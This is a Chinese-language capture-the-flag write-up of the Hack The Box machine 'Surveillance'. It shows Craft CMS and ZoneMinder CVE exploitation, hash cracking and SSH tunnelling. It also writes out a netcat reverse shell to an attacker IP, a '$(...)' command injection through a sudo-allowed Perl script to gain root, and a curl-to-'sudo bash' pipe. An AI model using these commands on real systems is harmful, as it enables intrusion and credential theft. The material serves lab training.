


---
tags:
  - HTB/Linux
  - HTB/Medium
---

## Summary


### Relevant Skills

- nmap
- CVE
- mysql
- JTR
- Port Forwarding(SSH tunnel)
- Code review

### Attack Path Overview

{ width='500' }


## External Recon - nmap

自用扫描脚本：[工作流](https://github.com/TimeLess613/workflow-scan4HTB/blob/main/workflow-scan4HTB.sh)  
`curl -s https://raw.githubusercontent.com/TimeLess613/workflow-scan4HTB/main/workflow-scan4HTB.sh | sudo bash -s 10.10.11.245`

开放端口：
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

## 攻击路径规划·漏洞分析

常规简单靶机，22端口SSH的版本较新，优先度放低。先看80端口的Web。


## 80端口

访问后查看网页源码发现版本，谷歌一波发现CVE。
> Powered by <a href="https://github.com/craftcms/cms/tree/4.4.14"/>Craft CMS

## Initial Access

### PoC (CVE-2023-41892)

https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226

```bash
└─$ python CVE-2023-41892.py "http://surveillance.htb/"
[-] Get temporary folder and document root ...
<i>no value</i>,   /var/www/html/craft/web
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

getshell，不过有点问题，发现似乎有些限制，例如无法移动目录。于是再运行了个反弹shell命令，kali接收：
```bash
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 43280
www-data@surveillance:~/html/craft/web/cpresources$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


## MySQL信息泄漏

稍微在这个web项目文件夹附近探索一下，发现mysql凭据。看了眼本地监听端口有3306，遂连接mysql看看：
```bash
www-data@surveillance:~/html/craft$ cat .env
 (...)
# Database connection settings
CRAFT_DB_DRIVER=mysql
CRAFT_DB_SERVER=127.0.0.1
CRAFT_DB_PORT=3306
CRAFT_DB_DATABASE=craftdb
CRAFT_DB_USER=craftuser
CRAFT_DB_PASSWORD=CraftCMSPassword2023!
CRAFT_DB_SCHEMA=
CRAFT_DB_TABLE_PREFIX=

# General settings (see config/general.php)
DEV_MODE=false
ALLOW_ADMIN_CHANGES=false
DISALLOW_ROBOTS=false

PRIMARY_SITE_URL=http://surveillance.htb/

www-data@surveillance:~/html/craft$ ss -anotl
State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess
LISTEN 0      511        127.0.0.1:8080      0.0.0.0:*          
LISTEN 0      511          0.0.0.0:80        0.0.0.0:*          
LISTEN 0      4096   127.0.0.53%lo:53        0.0.0.0:*          
LISTEN 0      128          0.0.0.0:22        0.0.0.0:*          
LISTEN 0      5            0.0.0.0:8000      0.0.0.0:*          
LISTEN 0      80         127.0.0.1:3306      0.0.0.0:*          
LISTEN 0      128             [::]:22           [::]:*          
www-data@surveillance:~/html/craft$ which mysql
/usr/bin/mysql
www-data@surveillance:~/html/craft$ mysql -u craftuser -p craftdb
Enter password: 
ERROR 1045 (28000): Access denied for user 'craftuser'@'localhost' (using password: YES)


www-data@surveillance:~/html/craft$ mysql -h 127.0.0.1 -u craftuser -p craftdb
Enter password: 
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MariaDB connection id is 123
Server version: 10.6.12-MariaDB-0ubuntu0.22.04.1 Ubuntu 22.04

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MariaDB [craftdb]> show databases;
+--------------------+
| Database           |
+--------------------+
| craftdb            |
| information_schema |
+--------------------+
2 rows in set (0.001 sec)

MariaDB [craftdb]> show tables;
+----------------------------+
| Tables_in_craftdb          |
+----------------------------+
| addresses                  |
| announcements              |
| assetindexdata             |
| assetindexingsessions      |
| assets                     |
| categories                 |
| categorygroups             |
| categorygroups_sites       |
| changedattributes          |
| changedfields              |
| content                    |
| craftidtokens              |
| deprecationerrors          |
| drafts                     |
| elements                   |
| elements_sites             |
| entries                    |
| entrytypes                 |
| fieldgroups                |
| fieldlayoutfields          |
| fieldlayouts               |
| fieldlayouttabs            |
| fields                     |
| globalsets                 |
| gqlschemas                 |
| gqltokens                  |
| imagetransformindex        |
| imagetransforms            |
| info                       |
| matrixblocks               |
| matrixblocks_owners        |
| matrixblocktypes           |
| migrations                 |
| plugins                    |
| projectconfig              |
| queue                      |
| relations                  |
| resourcepaths              |
| revisions                  |
| searchindex                |
| sections                   |
| sections_sites             |
| sequences                  |
| sessions                   |
| shunnedmessages            |
| sitegroups                 |
| sites                      |
| structureelements          |
| structures                 |
| systemmessages             |
| taggroups                  |
| tags                       |
| tokens                     |
| usergroups                 |
| usergroups_users           |
| userpermissions            |
| userpermissions_usergroups |
| userpermissions_users      |
| userpreferences            |
| users                      |
| volumefolders              |
| volumes                    |
| widgets                    |
+----------------------------+
63 rows in set (0.001 sec)

MariaDB [craftdb]> select * from users;
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
| id | photoId | active | pending | locked | suspended | admin | username | fullName  | firstName | lastName | email                  | password                                                     | lastLoginDate       | lastLoginAttemptIp | invalidLoginWindowStart | invalidLoginCount | lastInvalidLoginDate | lockoutDate | hasDashboard | verificationCode | verificationCodeIssuedDate | unverifiedEmail | passwordResetRequired | lastPasswordChangeDate | dateCreated         | dateUpdated         |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
|  1 |    NULL |      1 |       0 |      0 |         0 |     1 | admin    | Matthew B | Matthew   | B        | admin@surveillance.htb | $2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe | 2023-10-17 20:42:03 | NULL               | 2023-12-13 02:56:39     |                 1 | 2023-12-13 02:56:39  | NULL        |            1 | NULL             | NULL                       | NULL            |                     0 | 2023-10-17 20:38:29    | 2023-10-11 17:57:16 | 2023-12-13 02:56:39 |
+----+---------+--------+---------+--------+-----------+-------+----------+-----------+-----------+----------+------------------------+--------------------------------------------------------------+---------------------+--------------------+-------------------------+-------------------+----------------------+-------------+--------------+------------------+----------------------------+-----------------+-----------------------+------------------------+---------------------+---------------------+
1 row in set (0.001 sec)
```

发现用户 `Matthew` 的凭据，home目录也有个 `matthew` 文件夹，所以直接JTR尝试暴破密码：
```bash
└─$ cat creds-mysql.txt | grep Matthew | awk -F '|' '{OFS=":"; print $11,$14}' | tr -d ' '
Matthew:$2y$13$FoVGcLXXNe81B6x9bKry9OzGSSIYL7/ObcmQ0CXtgw.EpuNcx8tGe

└─$ cat creds-mysql.txt | grep Matthew | awk -F '|' '{OFS=":"; print $11,$14}' | tr -d ' ' > cred-Matthew.txt

└─$ john --wordlist=/usr/share/wordlists/rockyou.txt cred-Matthew.txt
```

运行了一段时间觉得不对，应该是兔子洞……

还有很多表，顺便看看还有哪些是有数据的。看表名也没什么值得注意，暂时先放放:
```bash
MariaDB [craftdb]> SELECT table_name,table_rows FROM information_schema.tables WHERE table_schema = 'craftdb' AND table_rows > 0;
+-------------------+------------+
| table_name        | table_rows |
+-------------------+------------+
| elements          |         13 |
| entries           |         12 |
| queue             |          1 |
| content           |         13 |
| fieldlayouttabs   |          2 |
| searchindex       |         10 |
| changedattributes |         19 |
| fieldlayouts      |          2 |
| entrytypes        |          2 |
| revisions         |          8 |
| users             |          1 |
| projectconfig     |        133 |
| elements_sites    |         13 |
| sections_sites    |          2 |
| widgets           |          4 |
| migrations        |         30 |
| resourcepaths     |         31 |
| sections          |          2 |
| sessions          |          1 |
+-------------------+------------+
19 rows in set (0.002 sec)
```

又翻找了一下，发现一个备份文件夹有个sql的压缩文件：
发现
```bash
www-data@surveillance:~/html/craft/storage$ ls backups/
surveillance--2023-10-17-202801--v4.4.14.sql.zip
```

将其下载到本地看看，搜索 `Matthew` 果然又有他的凭据信息：
```bash
└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql
INSERT INTO `users` VALUES (1,NULL,1,0,0,0,1,'admin','Matthew B','Matthew','B','admin@surveillance.htb','39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec','2023-10-17 20:22:34',NULL,NULL,NULL,'2023-10-11 18:58:57',NULL,1,NULL,NULL,NULL,0,'2023-10-17 20:27:46','2023-10-11 17:57:16','2023-10-17 20:27:46');
```

再来，整理后暴破：
```bash
└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql | awk -F ',' '{OFS=":"; print $10,$13}' | tr -d "'"
Matthew:39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

└─$ grep Matthew surveillance--2023-10-17-202801--v4.4.14.sql | awk -F ',' '{OFS=":"; print $10,$13}' | tr -d "'" > cred-Matthew.txt

└─$ hash-identifier    
 (...)
 HASH: 39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

Possible Hashs:
[+] SHA-256
[+] Haval-256
 (...)


└─$ john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt cred-Matthew.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
No password hashes left to crack (see FAQ)

└─$ cat hash.txt                                 
39ed84b22ddc63ab3725a1820aaa7f73a8f3f10d0848123562c9f35c675770ec

└─$ john --format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (Raw-SHA256 [SHA256 128/128 AVX 4x])
Warning: poor OpenMP scalability for this hash type, consider --fork=8
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
starcraft122490  (?)     
1g 0:00:00:00 DONE (2023-12-12 23:28) 2.631g/s 9485Kp/s 9485Kc/s 9485KC/s stefon23..sozardme
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed. 
```

这里挺奇怪，试了好几次。只能单放hash而不能加上用户名。  
最终得到凭据：`Matthew:starcraft122490`

尝试SSH连接，注意要用小写：
```bash
└─$ ssh matthew@10.10.11.245
matthew@10.10.11.245's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-89-generic x86_64)
 (...)
Last login: Wed Dec 13 04:31:19 2023 from 10.10.14.158
matthew@surveillance:~$ id
uid=1000(matthew) gid=1000(matthew) groups=1000(matthew)
```


## flag: user

```bash
matthew@surveillance:~$ cat user.txt 
f72b (...) fa09
```


## Privilege Escalation

### Internal Recon

基础信息收集一把梭：

- 用户家目录的隐藏文件：无
- 有当前用户的凭据所以先看了眼 `sudo -l`：没有sudo可执行
- SUID：无特别发现
- cron：无特别发现

### 本地端口8080：ZoneMinder

根据之前刚立足时查看的正在监听的端口信息，本地监听除了3306，还有个8080。所以打算开个SSH隧道看看是什么：
```bash
└─$ ssh -fNCT -L 8080:127.0.0.1:8080 matthew@10.10.11.245

└─$ ss -noptl                                            
State     Recv-Q    Send-Q       Local Address:Port       Peer Address:Port   Process                              
LISTEN    0         128              127.0.0.1:8080            0.0.0.0:*       users:(("ssh",pid=3440756,fd=5))    
LISTEN    0         128                  [::1]:8080               [::]:*       users:(("ssh",pid=3440756,fd=4))
```

在kali访问 `127.0.0.1:8080`，显示为ZoneMinder的登录界面。



看了下网页源码想找找版本信息来着，不过没找到。其中还发现 `__csrf_magic` 的固定隐藏值，不太清楚是否有CSRF的相关漏洞能利用。

先直接谷歌 `ZoneMinder exploit` 看看。发现[github的这个](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-222j-wh8m-xjrx)。  
提到在 `/zm/index.php` 可以确认ZoneMinder的版本。不过试了下并不行。

`locate zoneminder` 发现很多文件在 `/usr/share/zoneminder/`，刚好其中也有 `www` 文件夹，所以猜测这是部署ZoneMinder的文件夹。其实之前也在 `/etc/nginx/sites-enabled/zoneminder.conf` 发现下面信息，不过当时没太在意：
```bash
matthew@surveillance:/usr/share/zoneminder/www$ cat /etc/nginx/sites-enabled/zoneminder.conf 
server {
    listen 127.0.0.1:8080;
    
    root /usr/share/zoneminder/www;
    
    index index.php;
```

看了眼项目文件夹里也的确没有 `/zm/` 文件夹。看了看php代码与配置：
```bash
matthew@surveillance:/usr/share/zoneminder/www$ grep -v '^//' index.php | head -n 30
 (...)
require_once('includes/config.php');
require_once('includes/session.php');
require_once('includes/logger.php');
require_once('includes/Server.php');

if ( 0 and ZM\Logger::fetch()->debugOn() ) {


matthew@surveillance:/usr/share/zoneminder/www$ grep -v '^//' includes/config.php | head
<?php

define( 'ZM_CONFIG', '/etc/zm/zm.conf' );               // Path to config file
define( 'ZM_CONFIG_SUBDIR', '/etc/zm/conf.d' ); // Path to config subfolder
define( 'ZM_VERSION', '1.36.32' );               // Version
define( 'ZM_DIR_TEMP', '/tmp/zm' );
define( 'ZM_DIR_CACHE', '/var/cache/zoneminder' );
global $configvals;

$configFile = ZM_CONFIG;
```

发现版本 `1.36.32`。  
正好和上面[github的这个](https://github.com/ZoneMinder/zoneminder/security/advisories/GHSA-222j-wh8m-xjrx)里说的版本一样。但是实际部署结构似乎又和文章里写的略有不同。如无法访问 `/zm/index.php` 确认ZoneMinder的版本。以及虽然没有 `web/ajax/events.php` 文件，不过有 `www/ajax/events.php`。应该对应一下实际文件夹结构就可以利用？但是看PoC代码发送的请求目标URL还是  `/zm/index.php`，没有这个文件的话估计无法利用……

接着github搜搜 `ZoneMinder exploit`，发现下面两个 `CVE-2023-26035` 的PoC，符合漏洞版本。看了下代码果然是利用CSRF那个值啊。

> 1. <https://github.com/rvizx/CVE-2023-26035/tree/main>
> 1. <https://github.com/m3m0o/zoneminder-snapshots-rce-poc/tree/main>

### PoC (CVE-2023-26035)

下载上面第一个PoC后运行，成功getshell：
```bash
└─$ nc -lvnp 4445
listening on [any] 4445 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 48854
bash: cannot set terminal process group (1107): Inappropriate ioctl for device
bash: no job control in this shell
zoneminder@surveillance:/usr/share/zoneminder/www$ id
id
uid=1001(zoneminder) gid=1001(zoneminder) groups=1001(zoneminder)
```

家目录里啥都没，不过发现无密码sudo：
```bash
zoneminder@surveillance:/usr/share/zoneminder/www$ cd /home     
cd /home
zoneminder@surveillance:/home$ ls
ls
matthew
zoneminder
zoneminder@surveillance:/home$ ls zoneminder
ls zoneminder
zoneminder@surveillance:/home$ sudo -l
sudo -l
Matching Defaults entries for zoneminder on surveillance:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User zoneminder may run the following commands on surveillance:
    (ALL : ALL) NOPASSWD: /usr/bin/zm[a-zA-Z]*.pl *


zoneminder@surveillance:/usr/share/zoneminder/www$ ls /usr/bin/zm*.pl
/usr/bin/zmaudit.pl        /usr/bin/zmonvif-trigger.pl  /usr/bin/zmtrack.pl
/usr/bin/zmcamtool.pl      /usr/bin/zmpkg.pl            /usr/bin/zmtrigger.pl
/usr/bin/zmcontrol.pl      /usr/bin/zmrecover.pl        /usr/bin/zmupdate.pl
/usr/bin/zmdc.pl           /usr/bin/zmstats.pl          /usr/bin/zmvideo.pl
/usr/bin/zmfilter.pl       /usr/bin/zmsystemctl.pl      /usr/bin/zmwatch.pl
/usr/bin/zmonvif-probe.pl  /usr/bin/zmtelemetry.pl      /usr/bin/zmx10.pl
```


卡了。感觉要分析代码，但是看了下这些pl文件都是几百上千行的，结果就开摆了。
最后看大佬提示完成提权最后一步。似乎真的要代码审计，确认出 `zmupdate.pl` 是可以利用的：
```bash
zoneminder@surveillance:/tmp$ cat test.sh 
busybox nc 10.10.14.12 4446 -e bash
zoneminder@surveillance:/tmp$ sudo /usr/bin/zmupdate.pl --version=1 --user='$(/tmp/test.sh)' --pass=ZoneMinderPassword2023

Initiating database upgrade to version 1.36.32 from version 1

WARNING - You have specified an upgrade from version 1 but the database version found is 1.36.32. Is this correct?
Press enter to continue or ctrl-C to abort : 

Do you wish to take a backup of your database prior to upgrading?
This may result in a large file in /tmp/zm if you have a lot of events.
Press 'y' for a backup or 'n' to continue : n

Upgrading database to version 1.36.32
Upgrading DB to 1.26.1 from 1.26.0
```


## flag: root

接收上面运行后得到的反弹shell，拿flag：
```bash
└─$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.11.245] 33042
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
fb09 (...) 29cd
```


---

## 总结·后记

2023/12/13

……